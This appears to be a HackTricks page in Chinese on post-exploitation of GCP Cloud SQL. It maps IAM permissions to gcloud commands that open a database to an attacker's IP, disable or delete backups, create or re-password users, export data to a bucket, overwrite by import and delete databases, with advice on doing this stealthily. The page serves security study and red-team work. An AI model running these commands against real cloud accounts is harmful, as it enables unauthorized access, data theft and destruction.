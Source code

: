 # GCP - Cloud SQL 后期利用

{{#include ../../../banners/hacktricks-training.md}}

## Cloud SQL

有关 Cloud SQL 的更多信息，请查看：

{{#ref}}
../gcp-services/gcp-cloud-sql-enum.md
{{#endref}}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

要连接到数据库，您**只需访问数据库端口**并知道**用户名**和**密码**，没有任何 IAM 要求。因此，获取访问权限的一个简单方法是，假设数据库具有公共 IP 地址，更新允许的网络并**允许您自己的 IP 地址访问它**。
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
也可以使用 **`--no-backup`** 来 **干扰数据库的备份**。

由于这些是要求，我不太确定 **`cloudsql.instances.connect`** 和 **`cloudsql.instances.login`** 的权限是什么。如果你知道，请发送 PR！

### `cloudsql.users.list`

获取数据库的 **所有用户列表**：
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

此权限允许**在数据库中创建新用户**：
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

此权限允许**更新数据库中的用户**。例如，您可以更改其密码：
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

备份可能包含**旧的敏感信息**，因此检查它们是很有趣的。\
**在数据库中恢复备份**：
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
为了以更隐蔽的方式进行操作，建议创建一个新的 SQL 实例，并在该实例中恢复数据，而不是在当前运行的数据库中。

### `cloudsql.backupRuns.delete`

此权限允许删除备份：
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**将数据库导出**到 Cloud Storage Bucket，以便您可以从那里访问它：
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**从 Cloud Storage Bucket 导入数据库**（覆盖）：
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

从数据库实例中删除数据库：
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{{#include ../../../banners/hacktricks-training.md}}
